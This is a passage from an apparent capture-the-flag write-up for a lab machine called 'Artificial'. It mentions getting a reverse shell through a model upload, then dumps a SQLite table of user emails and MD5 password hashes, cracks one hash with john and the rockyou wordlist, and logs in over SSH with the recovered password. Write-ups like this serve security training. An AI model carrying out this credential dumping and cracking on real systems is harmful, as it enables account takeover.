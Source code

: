 ```
 => => exporting layers                                                                                                                    5.5s 
 => => writing image sha256:3ce3493863cf4d877a17cb49f6153636af12fdd54a2b3ed3623e5d933ff8abff                                               0.0s 
 => => naming to docker.io/library/my-tf-image                                                                                             0.0s 

```

After uploading, click View Predictions to get the reverse shell
![](images/Pasted%20image%2020250712015410.png)

# Shell as gael
There is a database `user.db` in `~/app/instance`
```
app@artificial:~/app/instance$ sqlite3 users.db 

Enter ".help" for usage hints.
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|notthei0204|notthei0204@gmail.com|f0f1f60430a59e920764a7b1be6041fc
```
By using john to crack these hashes, we get the password of user gael
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
mattp005numbertwo (?)     
1g 0:00:00:00 DONE (2025-06-23 04:46) 3.448g/s 19728Kp/s 19728Kc/s 19728KC/s mattpapa..mattne
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

gael:mattp005numbertwo
```
Then we can use ssh to connect it and get the shell as gael